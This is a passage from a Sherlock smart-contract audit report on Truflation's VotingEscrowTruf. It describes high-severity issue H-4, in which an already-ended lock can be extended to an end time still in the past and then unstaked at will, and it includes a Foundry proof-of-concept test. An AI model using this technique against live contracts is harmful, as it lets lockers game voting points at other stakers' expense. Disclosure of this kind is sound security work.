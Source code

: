 
**ryuheimat**

https://github.com/truflation/truflation-contracts/pull/10

Added `to` param to `getReward` function, and call it when migrating.

# Issue H-4: Ended locks can be extended 

Source: https://github.com/sherlock-audit/2023-12-truflation-judging/issues/82 

## Found by 
Kow, aslanbek, bughuntoor, mstpr-brainbot, unforgiven, zzykxx
## Summary
When a lock period ends, it can be extended. If the new extension 'end' is earlier than the current block.timestamp, the user will have a lock that can be unstaked at any time."
## Vulnerability Detail
When the lock period ends, the owner of the expired lock can extend it to set a new lock end that is earlier than the current block.timestamp. By doing so, the lock owner can create a lock that is unstakeable at any time.

This is doable because there are no checks in the [extendLock](https://github.com/sherlock-audit/2023-12-truflation/blob/37ddbb69e0c7fb6510f1ec99162fd9172ec44733/truflation-contracts/src/token/VotingEscrowTruf.sol#L333-L366) function that checks whether the lock is already ended or not. 

PoC:
```solidity
function test_ExtendLock_AlreadyEnded() external {
        uint256 amount = 100e18;
        uint256 duration = 5 days;

        _stake(amount, duration, alice, alice);

        // 5 days later, lock is ended for Alice
        skip(5 days + 1);

        (,, uint128 _ends,,) = veTRUF.lockups(alice, 0);

        // Alice's lock is indeed ended
        assertTrue(_ends < block.timestamp, "lock is ended");

        // 36 days passed  
        skip(36 days);

        // Alice extends her already finished lock 30 more days
        vm.prank(alice);
        veTRUF.extendLock(0, 30 days);

        (,,_ends,,) = veTRUF.lockups(alice, 0);

        // Alice's lock can be easily unlocked right away
        assertTrue(_ends < block.timestamp, "lock is ended");

        // Alice unstakes her lock, basically alice can unstake her lock anytime she likes
        vm.prank(alice);
        veTRUF.unstake(0);
    }
```
## Impact
The owner of the lock will achieve points that he can unlock anytime. This is clearly a gaming of the system and shouldn't be acceptable behaviour. A locker having a "lock" that can be unstaked anytime will be unfair for the other lockers. Considering this, I'll label this as high.